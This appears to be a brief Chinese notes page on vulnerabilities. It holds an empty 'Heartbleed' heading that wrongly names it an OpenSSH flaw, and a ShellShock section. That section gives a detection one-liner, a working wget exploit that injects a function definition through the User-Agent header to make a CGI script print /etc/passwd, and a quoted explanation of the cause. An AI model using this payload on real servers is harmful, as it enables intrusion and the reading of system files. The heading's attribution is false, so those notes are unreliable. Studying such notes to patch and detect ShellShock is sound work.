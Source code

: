 # 安全漏洞
### OpenSSH 心脏出血漏洞
### Bash ShellShock漏洞
检测方法：
```
#!bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

利用方法：
```
#!bash
wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://10.248.2.15/cgi-bin/testing.cgi
```
漏洞原因：
> Bash supports exporting not just shell variables, but also shell
functions to other bash instances, via the process environment to
(indirect) child processes ... The vulnerability occurs because
bash does not stop after processing the function definition; it
continues to parse and execute shell commands following the function
definition.